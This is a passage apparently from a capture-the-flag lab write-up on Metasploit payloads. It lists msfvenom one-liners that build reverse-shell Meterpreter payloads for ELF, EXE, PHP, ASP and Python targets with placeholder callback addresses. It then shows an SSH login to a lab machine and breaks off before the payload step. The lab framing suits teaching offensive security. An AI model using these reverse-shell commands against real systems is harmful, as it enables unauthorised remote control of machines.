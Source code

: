 ### Other Payloads
Based on the target system's configuration, msfvenom can be used to create payloads in almost all formats. Below are a few examples:

- Linux Executable and Linkable Format (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- Windows: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

### Practical Example
Connect to target via SSH (Credentials provided: murphy:1q2w3e4r)

```console
┌──(siachen㉿kali)-[~]
└─$ ssh murphy@10.10.240.70
murphy@10.10.240.70's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Mar  4 01:24:06 UTC 2023

  System load:  0.0               Processes:           91
  Usage of /:   4.0% of 29.02GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.240.70
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Mar  4 01:22:51 2023 from 10.13.17.49
Could not chdir to home directory /home/murphy: No such file or directory
$ 
```
Create a Meterpreter payload in .elf format.
